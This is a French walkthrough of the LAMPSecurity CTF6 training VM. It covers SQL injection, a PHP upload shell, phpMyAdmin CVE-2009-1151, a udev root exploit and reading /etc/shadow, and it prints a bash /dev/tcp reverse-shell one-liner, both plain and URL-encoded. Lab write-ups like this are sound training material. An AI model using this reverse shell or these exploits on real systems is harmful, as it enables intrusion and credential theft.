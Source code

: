 ```yaml
---
description: 'Walkthrough de la machine LAMPSecurity: CTF6'
---
```


# LAMPSecurity: CTF6

## Détails de la machine

**Nom :** LAMPSecurity: CTF6  
**Date de sortie :** 29 Juin 2009  
**Lien de téléchargement :** [http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/CTF6/lampsecurity\_ctf6.zip/download](http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/CTF6/lampsecurity_ctf6.zip/download)  
**Niveau :** Facile  
**Objectif\(s\) :** obtenir un "root"  
**Description :**`The LAMPSecurity project is an effort to produce training and benchmarking tools that can be used to educate information security professionals and test products. Please note there are other capture the flag exercises (not just the latest one). Check the SourceForge site to find other exercises available (http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/).  
These exercises can be used for training purposes by following this documentation. Alternatively you may wish to test new tools, using the CTF virtual machines as targets. This is especially helpful in evaluating the effectiveness of vulnerability discovery or penetration testing tools.`

## Reconnaissance

Votre cible, si vous l'acceptez sera désignée par `netdiscovery` :

![](../../../.gitbook/assets/01b81fb29800416a48b95b8bf4067734.png)

On scanne les services de la belle, comme d'habitude avec `nmap` :

![](../../../.gitbook/assets/0d2df19ee103a6d59c16b63c2414b097.png)

Rien de très particulier ici, du SSH, un serveur web, un service MySQL sur le port 3306. A noter tout de même un serveur web sur le port 443.

### Serveur HTTP \(port 80\)

Tout en commençant la reconnaissance manuelle on peut tout de suite lancer un `nikto` dont voici les résultats :

![](../../../.gitbook/assets/5bb8c42e703fa254522f24bf8e9ef5f2.png)

Plusieurs URLs intéressants à ne pas oublier de visiter après notre petite reconnaissance :

* /files
* /lib
* /mail
* /phpmyadmin
* /sql

La page d'accueil du serveur HTTP présente la page d'un revendeur de widgets. On remarque bien évidemment les quelques messages postés par l'utilisateur "admin", un lien vers un webmail, des informations sur les technologies utilisées \(PHP, MySQL, CenOS\) et pour terminer des noms/prénoms du staff :

![](../../../.gitbook/assets/77b6af492db3c6a94a786f674f5a3463.png)

Ni une ni deux, l'injection SQL présente au niveau du paramètre "id" permettant d'identifier un billet :

![](../../../.gitbook/assets/f92bbcc2d2a54032c51cad3570a710b7.png)

Les différentes URLs sont intéressantes mais sans doute facultatives : on y retrouve un script SQL qui permet de connaitre des informations sur la base de données \(mais bon on va pas se mentir `sqlmap` en aura pas besoin\), un répertoire d'images, le phpMyAdmin ou encore le client mail.

#### phpMyAdmin

Le phpMyAdmin disponible sur le serveur est une version 3.0.0. Il est possible de savoir cela en allant vérifier l'URL http://192.168.1.29/phpmyadmin/README. Cette version est vulnérable à une RCE :

![](../../../.gitbook/assets/906bd4b1971cd3b24146d53e51a32111.png)

### Serveur HTTP \(port 443\)

Il s'agit en fait du même si que celui présent sur le port 80, déçu 😞 .

## Exploitation

### Injection SQL

Ici on ne s'embête pas, `sqlmap` à la rescousse. Il y a deux bases intéressantes, la base "cms" qui correspond au site web, ainsi que la base "roundcube" qui correspond au webmail :

![](../../../.gitbook/assets/e03d1b4b831468edb37511112361e8de.png)

Pas de mot de passe de disponible dans la table "users" de la base de données "roundcube", mais on récupère à la place le mot de passe de mysql :

![](../../../.gitbook/assets/84c1dc7adcaefe8bfcfcdfa9d6102cb6.png)

### Injection de code

On s'authentifie grâce à notre compte fraîchement récupéré, puis nous voyons qu'il est possible d'ajouter un événement via le bouton "Add Event". Sans le moindre effort apparaît déjà deux XSS stockées grâce au champ "Titre" et "Description" :

{% hint style="warning" %}
`Ma machine ayant plantée à ce moment dû à un effet kiss kool ayant une origine inconnue, l'IP de la victime devient maintenant 192.168.1.30`
{% endhint %}

On continue avec l'option de joindre un fichier avec l’événement \(ici qui contient un script PHP appelant la méthode `phpinfo()`\) :

![](../../../.gitbook/assets/894c71013775256a8a0b8b4b83816b80.png)

Il suffit ensuite d'aller directement sur le lien de l'image et :

![](../../../.gitbook/assets/59c2f02d7b413d2a39e0aba08583bc3d.png)

Vous désirez bien un peu de `msfvenom` ensuite ?

![](../../../.gitbook/assets/29b9c5598bb7347964faa9cde9fe5d6b.png)

Nous voici dans la place avec notre shell limité :

![](../../../.gitbook/assets/7658ea9a3c18402e3e64b74f31c045b5.png)

### PhpMyAdmin \(CVE-2009-1151\)

Etant donné que nous avions déjà identifié l'injection de code au niveau du phpMyAdmin, je me suis amusé à l'exploiter également. Il suffit tout d'abord d'exécuter l'exploit "8921.sh" disponible, puis de renseigner l'URL suivante avec la commande désirée :

![](../../../.gitbook/assets/5a42613d2a939a338918aa8fd4338fc7.png)

J'ai légèrement galéré pour récupérer un shell propre, car netcat ne semblait pas passer. J'ai alors utilisé `bash` avec la commande suivante : `bash -i >& /dev/tcp/adresse_ip/port 0<&1` :

Pour cela que cela fonctionne via le navigateur j'ai tout d'abord encodé le tout en encodage URL soit :  
c=%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%31%30%33%2f%35%35%35%35%20%30%3e%26%31 :

![](../../../.gitbook/assets/b72bd4009a7cff516bf1eb8721e34099.png)

Côté Kali un simple `netcat` en écoute et lors de l'exécution de l'exploit :

![](../../../.gitbook/assets/9b54071bf95d65cd25cf302301f3610d.png)

## Élévation de privilèges

On récupère la version du noyau afin de voir s'il est possible de l'exploiter :

![](../../../.gitbook/assets/ae79dd5de8576224129892d479c3555d.png)

Bonne nouvelle, une recherche sous Google nous indique que la version 2.6 de Linux est vulnérable à la CVE-2009-1185. Il s'agit en fait d'une vulnérabilité du gestionnaire de périphériques udev qui accepte des messages NETLINK de la part des utilisateurs locaux alors qu'il ne devrait les accepter seulement s'ils proviennent de l'espace noyau. On récupère donc l'exploit \([https://www.exploit-db.com/exploits/8478](https://www.exploit-db.com/exploits/8478)\) puis on l'exécute :

![](../../../.gitbook/assets/770fdc869b87171154e9bb6fa46196f1.png)

Nous sommes "root", travail terminé

## Conclusion

Cette machine suit les mêmes règles que ces petites sœurs, et cela nous va très bien. Rien de très difficile à part l'exploit qui est un peu capricieux. Une fois "root" j'ai récupéré le fichier "/etc/shadow" afin de voir si certains mots de passe étaient guessable ou bruteforcable par exemple \(dans le cas où on serait passé à côté de la faille web\) :

![](../../../.gitbook/assets/81f6ff36c457303f43ed188bb1ee9946.png)

Certains comptes étaient donc bruteforcables car les mots de passe étaient présents dans le dictionnaire "rockyou.txt".



